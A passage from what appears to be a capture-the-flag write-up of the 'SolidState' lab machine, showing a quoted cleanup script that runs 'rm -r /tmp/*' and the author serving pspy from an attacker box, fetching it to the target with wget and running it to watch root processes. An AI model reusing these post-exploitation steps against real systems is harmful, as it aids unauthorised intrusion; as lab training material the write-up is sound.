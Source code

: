The script itself doesn’t do anything too interesting:

    
    
    #!/usr/bin/env python
    import os
    import sys
    try:
         os.system('rm -r /tmp/* ')
    except:
         sys.exit()
    

### PSpy

Given that file, I want to see if it’s being run, so I’ll upload
[PSpy](https://github.com/DominicBreuker/pspy). I’ll start a Python webserver
in my Pspy directory, and then grab the file with `wget` (grabbing the 32 bit
version since this machine is 32 bit):

    
    
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ wget 10.10.14.47/pspy32
    --2020-04-29 22:39:06--  http://10.10.14.47/pspy32
    Connecting to 10.10.14.47:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 2656352 (2.5M) [application/octet-stream]
    Saving to: ‘pspy32’
    
    pspy32                        100%[=================================================>]   2.53M  9.42MB/s    in 0.3s    
    
    2020-04-29 22:39:07 (9.42 MB/s) - ‘pspy32’ saved [2656352/2656352]
    

I see the request on the webserver:

    
    
    root@kali:/opt/pspy# ls
    pspy32  pspy32s  pspy64  pspy64s
    root@kali:/opt/pspy# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.51 - - [29/Apr/2020 22:37:02] "GET /pspy32 HTTP/1.1" 200 -
    

Now `chmod` and run:

    
    
    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ./pspy32
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855
    
    
         ██▓███    ██████  ██▓███ ▓██   ██▓
        ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
        ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
        ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
        ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
        ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
        ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
        ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                       ░           ░ ░
                                   ░ ░     
    Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
    Draining file system events due to startup...
    done
    2020/04/29 22:39:40 CMD: UID=0    PID=997    | /usr/sbin/cups-browsed
    ...[snip]...
    